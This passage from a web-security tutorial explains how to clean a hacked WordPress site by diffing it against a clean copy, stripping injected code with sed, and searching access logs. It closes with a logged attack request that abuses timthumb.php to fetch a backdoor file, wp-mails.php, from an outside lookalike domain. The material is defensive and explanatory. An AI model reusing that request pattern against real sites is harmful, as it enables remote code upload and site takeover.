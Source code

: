 <pre><code class="language-bash">
diff -r /path/to/hacked/site /path/to/clean/site
</code></pre>

This command will show the differences between the two folders: new files, edited scripts and new folders. The point here is to quickly identify the differences and find the malicious back-door files. The following example shows the differences between an infected <code>index.php</code> file and a clean one:

<figure><img loading="lazy" decoding="async" src="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/b2e2aa2f-10cf-44a8-becf-2a11faab2c14/code-1.jpg" alt="Code snippet 1" width="500" height="239" /></figure>

As you can see, the hackers managed to add malicious code to the first line in the <code>index.php</code> script. Usually, hackers will infect many files, not just one, and will also add malicious code to existing lines of code, so that removing it is very hard. Let’s assume that our clean <code>index.php</code> file is the default WordPress <code>index.php</code>:

<figure><img loading="lazy" decoding="async" src="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/0ff73013-24c9-43cd-97b7-e91d91215be0/code-4.jpg" alt="Code snippet 2" width="500" height="330" /></figure>

The hackers have modified the file and added malicious code to line 14, changing the file to the following:

<figure><img loading="lazy" decoding="async" src="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/5a6c6397-8761-4daa-a369-868d419f2b84/code-2.jpg" alt="Code snippet 3" width="500" height="491" /></figure>

The hackers added the malicious code before the <code>WP_USE_THEMES</code> definition line. Use the following Linux <code>sed</code> command to remove only the malicious code and keep the legitimate WordPress code:

<figure><img loading="lazy" decoding="async" src="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/52ba3b31-2671-4658-8398-fd7323f50fcd/code-3.png" alt="Code snippet 4" width="500" height="43" /></figure>

The <code>sed</code> command uses a regular expression to find only the malicious code and remove it via substitution. You can combine it with the Linux <code>find</code> command to find all infected files and remove the malicious code. Of course, be very careful not to remove legitimate code.</p>

### 5. Check Archived Logs For Records Of Attack

Cleaning your website is just the first part of the recovery. More important is to find out how the attackers managed to do this. Usually, that information is kept in the server’s access log files, including for website access, FTP, SSH, the file manager and the control panel. Different vulnerabilities are exploited in very different ways, which is why you’ll need to be familiar with the structure of all of the access logs.

<strong>Tip:</strong> Some attacks are difficult to find, and log files that are even three to six months old will need to be checked. Keep your old log records for at least three months. Not many hosts keep logs that old, so start keeping them yourself! Also, reading logs is time-consuming and painful, so consider outsourcing that to a security specialist or to your Web host, if they offer such a service.

Now that our website is clean, we need to find out how the hackers managed to upload the <code>wp-mails.php</code> file to our account. The easiest way to do this is to check all logs files and search for the <code>wp-mails.php</code> file (using the <code>grep</code> command). Upon checking the log files, we find the following record:

<pre><code class="language-bash">
189.100.29.167 - [12/Apr/2014:06:53:41 +1000] “GET /wp-content/themes/premiumtheme/timthumb.php?src=https://www.blogger.com.exl.ro/max/wp-mails.php HTTP/1.1″ 301 – “-” “Mozilla/4.0 (compatible; MSIE 6.0; MSIE 5.5; Windows NT 5.1) Opera 7.01 [en]”
</code></pre>
